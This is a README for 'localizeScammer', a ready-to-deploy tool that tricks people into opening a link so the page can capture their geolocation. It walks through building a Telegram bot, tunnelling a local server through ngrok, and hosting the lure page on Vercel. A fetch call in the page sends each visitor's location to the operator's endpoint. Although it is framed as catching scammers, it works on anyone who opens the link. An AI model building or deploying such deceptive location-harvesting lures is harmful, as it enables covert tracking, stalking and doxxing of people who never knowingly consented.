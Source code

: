 <h1 align="center">🕵️‍♂️ localizeScammer</h1>
<h3 align="center" style="color: red;">
🚨 A tool designed to catch dumb scammers who think they’re smarter than you. 🚨
</h3>

<p align="center">
This project tracks scammer locations in real time by tricking them into opening a simple link. <br>
Because some scams deserve to be exposed. 💥
</p>

## 1. Install Project Dependencies

```bash
npm install
```

---

## 2. Configure Environment Variables

Edit the `server.js` file:

```bash
nano server.js
```

Replace **BOT-TOKEN** with your Telegram bot token.

Replace **CHAT-TOKEN** with the chat or group ID where you want to receive messages.

Press **CTRL + X**, then **Y**, and **Enter** to save.

---

## 3. Create and Configure a Telegram Bot

1. Open Telegram and search for **@BotFather**.
2. Send the command:
   ```
   /newbot
   ```
3. Follow the instructions and save the **token** provided.
4. To obtain the **chat/group ID**:
   - Add the bot to your group.
   - Send a message in the group.
   - Access:
     ```
     https://api.telegram.org/botYOUR_BOT_TOKEN/getUpdates
     ```
   - Locate the `chat_id`.

---

## 4. Start the Server

```bash
node server.js
```

If everything is correct, the output should confirm the server is running.

---

## 5. Install and Configure Ngrok

Ngrok is used to expose your local server to the internet.

### 5.1 Download and Install Ngrok

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
chmod +x ngrok
sudo mv ngrok /usr/local/bin/
```

### 5.2 Create a Ngrok Account

Go to [https://ngrok.com/](https://ngrok.com/) and create an account.

After creating an account, get your **Authtoken** and run:

```bash
ngrok authtoken YOUR_AUTHTOKEN
```

---

## 6. Expose the Server with Ngrok

```bash
ngrok http 8088
```

Copy the **URL generated by Ngrok** (example: `https://abc123.ngrok.io`).

---

## 7. Update the Endpoint in the Project

Open the `index.html` file:

```bash
nano index.html
```

Replace the endpoint URL:

```js
fetch("https://abc123.ngrok.io/send-location", {
```

Save the changes (**CTRL + X**, **Y**, **Enter**).

---

## 8. Test the Project

Open `index.html` in your browser and allow location access. If everything is set correctly, your location will be sent to the Telegram bot.

---

## 9. Deploy the HTML Page on Vercel

To make the **localizeScammer** interface publicly accessible, host `index.html` on Vercel.

### 9.1 Create a Vercel Account

1. Go to [https://vercel.com/](https://vercel.com/) and create an account (you can use your GitHub login).
2. After logging in, click on **"New Project"**.

### 9.2 Upload the Project to GitHub

If you haven’t pushed the code yet:

```bash
git init
git add index.html
git commit -m "Add localizeScammer interface"
git branch -M main
git remote add origin https://github.com/your-username/localize-scammer-frontend.git
git push -u origin main
```

### 9.3 Deploy on Vercel

1. On Vercel, click **"Import Git Repository"** and select your project repository.
2. Choose default settings and click **Deploy**.
3. After deployment, copy the generated URL (e.g., `https://localizescammer.vercel.app`).

Your project is now live! 🚀

---

## Conclusion

You’ve successfully set up and deployed the localizeScammer project, ready to receive real-time geolocation updates via Telegram. 🚀
